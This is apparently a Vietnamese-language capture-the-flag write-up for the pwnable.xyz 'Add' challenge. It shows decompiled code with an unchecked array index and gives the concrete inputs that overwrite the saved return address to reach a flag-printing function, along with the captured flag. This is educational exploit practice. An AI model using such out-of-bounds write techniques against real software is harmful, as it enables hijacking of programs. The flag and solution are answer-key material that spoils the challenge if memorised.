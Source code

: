 # Pwnable.xyz Add
## Analysis
Ch&#432;&#417;ng tr&#236;nh mu&#7889;n ta nh&#7853;p 3 s&#7889; sau &#273;&#243; l&#432;u v&#224;o v&#7883; tr&#237; t&#432;&#417;ng &#7913;ng trong m&#7843;ng local_68:
```
undefined8 main(void)
{
  int iVar1;
  long lVar2;
  long *plVar3;
  long in_FS_OFFSET;
  byte bVar4;
  long local_80;
  long local_78;
  long local_70;
  long local_68 [11];
  long local_10;
  
  bVar4 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  while( true ) {
    local_80 = 0;
    local_78 = 0;
    local_70 = 0;
    plVar3 = local_68;
    for (lVar2 = 10; lVar2 != 0; lVar2 = lVar2 + -1) {
      *plVar3 = 0;
      plVar3 = plVar3 + (ulong)bVar4 * -2 + 1;
    }
    printf("Input: ");
    iVar1 = __isoc99_scanf("%ld %ld %ld",&local_80,&local_78,&local_70);
    if (iVar1 != 3) break;
    local_68[local_70] = local_78 + local_80;
    printf("Result: %ld",local_68[local_70]);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
&#272;&#7891;ng th&#7901;i c&#361;ng c&#243; h&#224;m win c&#243; ch&#7913;c n&#259;ng in flag  
D&#7877; th&#7845;y khi l&#432;u t&#7893;ng v&#224;o m&#7843;ng, ch&#432;&#417;ng tr&#236;nh kh&#244;ng ki&#7875;m tra ch&#7881; m&#7909;c c&#243; th&#7887;a m&#227;n k&#237;ch th&#432;&#7899;c m&#7843;ng hay kh&#244;ng
## Solution
Ghi &#273;&#232; save rip &#273;&#7875; chuy&#7875;n h&#432;&#7899;ng th&#7921;c thi v&#7873; h&#224;m win:  
```
Input: 2098202 2098202 13
Result: 4196404Input: 2098193 2098193 14
Result: 4196386Input: a
FLAG{easy_00b_write}
```
Ch&#250; &#253; c&#7847;n th&#234;m ret gadget &#273;&#7875; tr&#225;nh stack alignment
## Flag
```
FLAG{easy_00b_write}
```
